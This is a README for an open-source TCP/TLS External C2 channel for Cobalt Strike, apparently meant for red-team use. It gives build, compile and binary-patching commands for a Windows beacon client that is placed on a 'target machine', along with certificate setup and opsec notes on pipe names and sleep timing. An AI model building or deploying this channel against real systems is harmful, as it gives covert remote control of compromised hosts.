 # COBALT STRIKE TCP CHANNEL

This project provides a TCP-based communication channel for Cobalt Strike. This is meant as a base for covert channels implemented in any TCP-based protocol.

To use the channel, load up Cobalt Strike and add a new External C2 listener.
This channel is configured to run on the default Teamserver port of 2222.

Requirements: Python3 (developed on 3.9.2) and wolfssl

> pip3 install wolfssl

To start the server, run the following command:

> python3 [Name].py [Teamserver IP] [Python Server IP] [Port] [Pipename] [Cert] [Key] [OPTIONAL:-tp TeamserverPort -a Arch -r Restart]

- [Name] is the name of your Python server.
- [Teamserver IP] is the IP of your Cobalt Strike teamserver.
- [Python Server IP] is the IP of the machine you are running server.py on. (“0.0.0.0” has been found to work on Linux machines, though it is unknown if this behavior is consistent everywhere.)
- [Port] is the port that the server listens on to communicate with the client over. This is not the same port that the Python server uses to communicate with the teamserver.
- [Pipename] is the name of the pipe the client creates when it runs on the target. This could be any opsec appropriate pipe name approved for ops.
- [Cert] is the path to the servers certificate in PEM format.
- [Key] is the path to the servers key in PEM format.
- [TeamserverPort] is the port to connect to on the Cobalt Strike teamserver. It defaults to 2222 and is an optional argument.
- [Arch] is the architecture to request from the teamserver for the beacon. It defaults to x86 and is an optional argument.
- [Restart] is a Y/N value to either restart the server after disconnect or exit. Default is N and is an optional argument.

Install MinGW

>sudo apt install mingw-w64

Install WolfSSL (need autoconf, automake, and libtool installed)

>git clone https://github.com/wolfSSL/wolfssl.git
>cd wolfssl
>./autogen.sh
>sudo ./configure CFLAGS="-DWIN64 -DMINGW -DWC_NO_HARDEN" --host=x86_64 CC=x86_64-w64-mingw32-gcc LD=x86_64-w64-mingw32-ld LIBS="-lws2_32 -L/usr/x86_64-w64-mingw32/lib" --prefix=/usr/x86_64-w64-mingw32 --enable-debug --enable-rsa --enable-aes --enable-static --disable-shared --disable-harden --disable-examples --disable-crypttests
>sudo make
>sudo make check
>sudo make install

Once you have the MinGW compiler installed, you may compile the client C code with the following command:

>i686-w64-mingw32-gcc -s -O3 -fvisibility=hidden -o client.exe client.c -lws2_32 -static -lwsock32 -lwolfssl

or 64-bit with:

>x86_64-w64-mingw32-gcc -s -O3 -fvisibility=hidden -o client.exe client.c -lws2_32 -static -lwsock32 -lwolfssl

You can compile the debug version of the client with print statements by adding `-DDEBUG` to the end of the compile command

Change the client exe name if desired.
Move the resultant executable to your target machine, and then run it with the following command:

>./[Name].exe

Use the binary patcher to patch in arguments.

>python3 bipa.py [input binary] [output binary] -a [Python Server IP] -b [Port] -c [Pipename] -d [Sleep] -e [Timeout] -f [CA Cert]

- [Python Server IP], [Port], and [Pipename] must be the same as the ones passed to server.py.
- [Sleep] is the sleep time (in seconds) to wait between check ins with the server. It hits this sleep when the beacon indicates it has nothing left to send back to the server and is just checking in.
- [Timeout] is the send/recv socket timeout option (in seconds) set by setsockopt(). May remove in future.
- [CA Cert] is the CA Cert created when creating the server cert and key. It is copy and pasted in with quotes around it, not a file path.

## CONSTRAINTS AND NOTES

- This channel expects only one client per instance of server.py. Multiple clients communicating with the same server requires multiple instances of server.py running on different ports.
- The client keeps one long TCP/TLS connection open.
- Create certs. Server gets server-cert.pem and server-key.pem. Client gets ca-cert.pem

>openssl genrsa 2048 > ca-key.pem
>openssl req -new -x509 -nodes -days 365000 -key ca-key.pem -out ca-cert.pem
>openssl req -newkey rsa:2048 -nodes -days 365000 -keyout server-key.pem -out server-req.pem
>openssl x509 -req -days 365000 -set_serial 01 -in server-req.pem -out server-cert.pem -CA ca-cert.pem -CAkey ca-key.pem

- Steps I used to set up wolfssl on kali once cloned

> make distclean
> ./autogen.sh
> sudo ./configure CFLAGS="-DWIN64 -DMINGW -DWC_NO_HARDEN" --enable-debug --enable-rsa --enable-aes --enable-static --disable-shared --enable-dtls --host=x86_64 CC=x86_64-w64-mingw32-gcc LD=x86_64-w64-mingw32-ld LIBS="-lws2_32 -L/usr/x86_64-w64-mingw/lib -lwolfssl" --prefix=/usr/x86_64-w64-mingw32 --disable-harden --disable-examples
> sudo make
> sudo make install

## TODOS/IMPROVEMENTS

- Handle multiple clients on one server.
- Add jitter to sleep
- Add retry to TCP
